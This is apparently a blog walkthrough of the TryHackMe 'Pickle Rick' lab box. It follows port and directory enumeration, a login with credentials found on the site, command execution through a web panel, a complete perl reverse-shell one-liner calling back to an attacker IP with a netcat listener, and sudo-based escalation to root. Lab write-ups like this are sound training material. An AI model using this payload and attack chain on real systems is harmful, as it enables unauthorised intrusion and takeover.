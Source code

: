 ```yaml
---
layout: post
title: "Pickle Rick - TryHackMe"
date: 2020-07-26
excerpt: "Walkthrough for Pickle Rick on TryHackme"
tags: [Wonderland, TryHackMe, privilege escalation, website enumeration]
comments: false
---
```

Pickle Rick is an easy rated difficulty box on [TryHackMe](https://www.tryhackme.com). Below are the steps taken to root this box.

First, I enumerated the open TCP ports with **threader3000**.

![Pickle Rick threader3000](/assets/img/PickleRick1.png)

Next, I enumerated the ports with **nmap -A -p 22,80 [machine ip]**.

![Pickle Rick nmap](/assets/img/PickleRick2.png)

It appears there is a website running on port 80. I visited the site to see what I could find.

![Pickle Rick website](/assets/img/PickleRick3.png)

It appears you are looking for ingredients for a recipe, and need to log into the victim computer to find them. Let's look at the source code of this page. The bolded words of **BURP** are probably a hint that burp suite is needed.

![Pickle Rick Source Code username](/assets/img/PickleRick4.png)

This appears to be a username for something, so let's make a note of it for now. Next, let's enumerate the site with gobuster and see if we can find anything else on this site. The command I ran was **gobuster dir -u http://[machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .php,.txt -t 50**

![Pickle Rick gobuster](/assets/img/PickleRick5.png)

We find a few different files/folders. **/assets** contained a couple of javascript files and a few images that we will come back to. The **robots.txt** contains a single word in it.

![Pickle Rick robots.txt](/assets/img/PickleRick6.png)

Let's take a look at **/login.php** (**/portal.php** redirects to **/login.php** as well). It asks for a set of credentials. Let's try the username and potential passwords we uncovered previously.

![Pickle Rick portal.php](/assets/img/PickleRick7.png)

We were able to login successfully and now have a command panel.

![Pickle Rick Command Panel](/assets/img/PickleRick8.png)

Let's run **whoami** and see what happens.

![Pickle Rick Command Panel 2](/assets/img/PickleRick9.png)

It appears we can execute shell commands, let's open up a netcat listener on our attacker pc with **nc -nvlp 4444**

![Pickle Rick nc listener](/assets/img/PickleRick10.png)

Next, lets try entering reverse shell one liners ([found here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)) until we find one that works. The perl one seemed to work with **perl -e 'use Socket;$i="[attacker ip]";$p=[attacker port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**

![Pickle Rick perl reverse shell](/assets/img/PickleRick11.png)

We should now have a reverse shell established on our attacker PC. Running **whoami** lets you know you're running as **www-data**, and there is a file here that appears to contain the first ingredient.

![Pickle Rick www-data shell](/assets/img/PickleRick12.png)

 Let's run **cat Sup3rS3cretPickl3Ingred.txt** and see what is there.

![Pickle Rick 1st ingredient](/assets/img/PickleRick13.png)

This is the answer to the first flag. There is another text file present, lets look at it with **cat clue.txt**

![Pickle Rick clue.txt](/assets/img/PickleRick14.png)

Let's take this clue's advise and run **find / -name "second*" 2>/dev/null**. This will return the location of the 2nd ingredient file.

![Pickle Rick 2nd ingredient location](/assets/img/PickleRick15.png)

Let's run **cat** on the file directory/name above in quotes and see what happens:

![Pickle Rick 2nd clue](/assets/img/PickleRick16.png)

Success, this is the 2nd clue. Let's run **sudo -l** and see if www-data has any privileges we can run as another user.

![Pickle Rick sudo -l](/assets/img/PickleRick17.png)

We can run any command as any user. Before we can swap users to root, we need to upgrade our shell. Let's run **python3 -c 'import pty; pty.spawn("/bin/sh")'.**

![Pickle Rick shell upgrade python3](/assets/img/PickleRick18.png)

Let's run **sudo su** to switch to root and then **cd /root** followed by **ls -al** to see what's in root's home folder. There's a file called **3rd.txt**. Let's run **cat 3rd.txt** to get the 3rd flag and finish this box.

![Pickle Rick 3rd ingredient](/assets/img/PickleRick19.png)

